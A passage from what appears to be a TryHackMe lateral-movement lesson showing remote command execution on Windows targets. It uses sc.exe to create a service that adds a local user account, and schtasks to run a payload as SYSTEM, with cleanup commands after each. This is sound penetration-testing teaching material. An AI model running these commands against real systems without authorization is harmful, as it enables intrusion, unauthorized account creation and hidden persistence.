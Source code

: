 3. If the latter connection fails, sc will try to reach SVCCTL through  SMB named pipes, either on port 445 (SMB) or 139 (SMB over NetBIOS).
4. ![svcctl via named pipe](assets/0c425c37d692c771c944e38dca8c5879.png)

We can create and start a service named "THMservice" using the following commands:

```powershell
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice
```

The "net user" command will be executed when the service is started,  creating a new local user on the system. Since the operating system is  in charge of starting the service, you won't be able to look at the  command output.

To stop and delete the service, we can then execute the following commands:

```powershell
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```

## Creating Scheduled Tasks Remotely

Another Windows feature we can use is Scheduled Tasks. You can create and run one remotely with schtasks, available in any Windows  installation. To create a task named THMtask1, we can use the following  commands:

```powershell
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 

schtasks /s TARGET /run /TN "THMtask1" 
```

We set the schedule type (/sc) to ONCE, which means the task is  intended to be run only once at the specified time and date. Since we  will be running the task manually, the starting date (/sd) and starting  time (/st) won't matter much anyway.

Since the system will run the scheduled task, the command's output won't be available to us, making this a blind attack.

Finally, to delete the scheduled task, we can use the following command and clean up after ourselves:

```powershell
schtasks /S TARGET /TN "THMtask1" /DELETE /F
```
